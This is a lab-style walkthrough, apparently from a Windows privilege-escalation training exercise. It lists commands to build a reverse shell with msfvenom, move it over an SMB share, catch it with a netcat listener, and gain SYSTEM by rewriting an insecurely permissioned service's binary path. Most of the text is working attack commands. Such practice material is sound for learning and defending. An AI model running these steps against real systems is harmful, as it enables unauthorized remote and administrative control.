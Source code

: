 ### Generating a Reverse Shell Executable

On Kali, generate a reverse shell executable (reverse.exe) using msfvenom. Update the LHOST IP address accordingly:
```JavaScript
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

Transfer using SMB server. On Kali, in the same directory as reverse.exe
```JavaScript
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

On Windows (update the IP address with your Kali IP)
```JavaScript
copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe
```

Setup netcat listener on Kali
```JavaScript
sudo nc -nvlp 53
```

Run reverse.exe on Windows
```JavaScript
C:\PrivEsc\reverse.exe
```


### Insecure Service Permissions

Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:

```JavaScript
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```

Note that the "user" account has the permission to change the service config (SERVICE_CHANGE_CONFIG).

Query the service and note that it runs with SYSTEM privileges (SERVICE_START_NAME):
```JavaScript
sc qc daclsvc
```

Modify the service config and set the BINARY_PATH_NAME (binpath) to the reverse.exe executable you created:
```JavaScript
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
```JavaScript
net start daclsvc
```
